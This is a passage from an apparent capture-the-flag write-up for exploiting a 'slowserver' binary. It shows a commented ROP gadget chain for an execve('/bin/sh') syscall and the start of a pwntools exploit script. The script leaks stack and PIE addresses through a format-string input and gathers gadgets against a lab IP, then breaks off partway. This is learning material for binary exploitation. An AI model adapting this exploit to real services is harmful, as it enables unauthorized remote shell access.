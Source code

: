 ```
pop rdi; xor rdi, rbp; ret; # Place a pointer to our buffer that contains "/bin/sh" string in rdi
pop rsi; ret;               # Place 0 in rsi
pop rdx; pop 12; ret;       # Place 0 in rdx and place junk value in r12
pop rax; ret;               # Place 59 in rax (syscall for execve)
syscall; ret;
```

#### Putting this all together allows us to obtain a shell on the target.

![RCE](assets/flag_screenshot.jpg)


### Full Exploit

```python
from pwn import *

context.binary = binary = ELF('./slowserver',checksec=False)

#p = remote('localhost', 5555)
p = remote('10.10.87.161', 5555)

p.sendline(b'DEBUG %p|%3$p')

leaks = p.recvrepeat(1).decode().strip().split('|')

stack_leak = int(leaks[0], 16)
buf = stack_leak - 0x66

info(f'stack leak: {hex(stack_leak)}')
info(f'buf: {hex(buf)}')

pie_leak = int(leaks[1], 16)
binary.address = pie_leak - 0x2080

info(f'pie leak: {hex(pie_leak)}')
info(f'pie base: {hex(binary.address)}')

p.close()

rop = ROP(binary)

syscall = p64(rop.find_gadget(['syscall','ret'])[0])
pop_rax = p64(rop.find_gadget(['pop rax','ret'])[0])
pop_rsi = p64(rop.find_gadget(['pop rsi','ret'])[0])
pop_rbp = p64(rop.find_gadget(['pop rbp','ret'])[0])
ret = p64(rop.find_gadget(['ret'])[0])

pop_rdi_xor_rdi = p64(binary.address+0x1816)
```